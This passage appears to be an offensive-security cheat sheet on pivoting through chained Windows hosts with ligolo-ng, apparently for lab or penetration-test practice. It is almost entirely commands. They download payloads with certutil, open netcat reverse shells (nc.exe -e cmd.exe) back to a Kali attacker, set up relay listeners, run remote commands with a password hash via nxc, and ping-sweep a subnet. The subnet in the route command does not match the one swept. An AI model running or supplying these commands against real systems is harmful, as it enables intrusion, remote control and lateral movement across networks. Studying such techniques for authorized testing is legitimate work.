 ##### Second Pivot (`Kali --> ligolo1 (Jump Host) --> ligolo2`)

```bash
# On ligolo2, download netcat from Kali through ligolo1
ligolo2 cmd> certutil -urlcache -f http://<ligolo1_ip>:8080/nc.exe nc.exe

# Forward traffic from port 4444 on ligolo1 to port 444 on our Kali
ligolo1_agent$ listener_add --addr 0.0.0.0:4444 --to 127.0.0.1:444 --tcp
ligolo1_agent$ listener_list

# Execute netcat on ligolo2 to connect back to us through ligolo1
ligolo2 cmd> ./nc.exe <ligolo1_ip> 4444 -e cmd.exe

# Catch the reverse shell our kali 
kali$ nc -nlvp 444

# Upload agent to ligolo2
PS C:\> certutil -urlcache -f http://<ligolo1_ip>:8080/agent.exe agent.exe

# To run Agent on ligolo2, we must create a new listener on ligolo1
ligolo1_agent$ listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp

# Execute Agent on ligolo2
PS C:\> ./agent.exe -connect <ligolo1_ip>:11601 -ignore-cert

# Start the tunnel on Ligolo proxy
ligolo-ng$ session # find ligolo2 agent
ligolo2_agent$: start --tun ligolo2
ligolo2_agent$ ifconfig

# Add a new route (ligolo2 subnet) to our proxy
kali$ sudo ip route add 192.186.119.0/24 dev ligolo2

# Do a ping sweep to find ligolo3
kali$ for i in {1..254}; do (ping -c 1 192.168.119.$i) | grep "bytes from" &) ;done
```

>   We can also use `nxc`: 
>
>   `nxc smb <ligolo2_ip> -u user -H hash -x 'certutil -f -urlcache http://<kali_ip>:8080/tools/ligolo/ligolo-ng_agent_windows_amd64/agent.exe c:\windows\system32\agent.exe'`
>
>   `nxc smb <ligolo2_ip> -u user -H hash -x 'c:\windows\system32\agent.exe -connect <ligolo1_ip>:11601 -ignore-cert'`

##### Third Pivot

```bash
# On ligolo3, download netcat from Kali through ligolo2
ligolo3 cmd> certutil -urlcache -f http://<ligolo2_ip>:8080/nc64.exe nc.exe

# Forward traffic from port 9090 on ligolo2 to port 999 on our Kali
ligolo2_agent> listener_add -addr 0.0.0.0:9090 --to 127.0.0.1:999 --tcp

# Execute netcat on ligolo3 to connect back to us through ligolo2
ligolo3 cmd> .\nc.exe <ligolo2_ip> 9090 -e cmd.exe

# Catch the reverse shell from ligolo3
kali$ nc -nlvp 999

# Upload agent to ligolo3
ligolo3 cmd> certutil -urlcache -f http://<ligolo2_ip>:8080/agent.exe agent.exe

ligolo2_agent> listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
```